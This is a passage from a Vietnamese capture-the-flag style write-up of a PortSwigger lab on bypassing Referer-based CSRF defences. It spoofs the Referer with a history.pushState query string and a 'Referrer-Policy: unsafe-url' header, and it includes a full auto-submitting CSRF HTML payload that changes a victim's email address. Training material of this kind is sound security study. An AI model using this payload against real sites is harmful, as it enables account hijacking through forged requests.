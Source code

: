 Nếu ta thay đổi Referer khác domain của ứng dụng web thì server sẽ trả về Invalid referer header.

![image](https://hackmd.io/_uploads/BJzmSCrqT.png)

- Tuy nhiên khi POST request trên với trường Referer có chứa domain web là 1 query string hay là tham số thì request được xử lí thành công.

![image](https://hackmd.io/_uploads/SJMMI0Sqa.png)

Như vậy, server chỉ thực hiện validate Referer có chứa chung domain với ứng dụng web không hay thôi. Ta chỉ việc set Referer chứa domain của ứng dụng khi thực hiện CSRF.

Thực hiện vào exploit-server, chỉnh URL exploit có chứa domain của ứng dụng theo cách query string. Đồng thời payload CSRF tương tự bài lab 1.

### Khai thác

![image](https://hackmd.io/_uploads/H1GvU0S5T.png)

- Tuy nhiên đến bước Deliver exploit to victim thì vẫn không thành công. Có vẻ như domain web không được kèm theo trong Referer như mong muốn. - gặp lại lỗi "invalid Referer header". Điều này là do nhiều trình duyệt hiện loại bỏ chuỗi truy vấn khỏi tiêu đề Người giới thiệu theo mặc định như một biện pháp bảo mật. Để ghi đè hành vi này và đảm bảo rằng URL đầy đủ được đưa vào yêu cầu, quay lại máy chủ khai thác và thêm tiêu đề sau vào phần "Head":
- Để có thể chứa nó trong Referer, chỉ cần thêm header `Referrer-Policy: unsafe-url`.

![image](https://hackmd.io/_uploads/BJ1LhAB5p.png)

Có vẻ như domain web không được kèm theo trong Referer như mong muốn. Sử dụng cách thay thế như sau:

`history.pushState("", "", "/<LAB-DOMAIN>")`

Thêm đoạn script trên vào và send exploit đến nạn nhân.

```htmlembedded
<html>
  <body>
    <form action="https://0acf00db0399b66981c044b100e800b0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="abc@a.a" />
    </form>
    <script>
        history.pushState("", "", "/?0acf00db0399b66981c044b100e800b0.web-security-academy.net")
        document.forms[0].submit();
    </script>
  </body>
</html>
```

và mình đã giải quyết được lab này

![image](https://hackmd.io/_uploads/H1TG2AScp.png)

## 12. Lab: SameSite Strict bypass via sibling domain
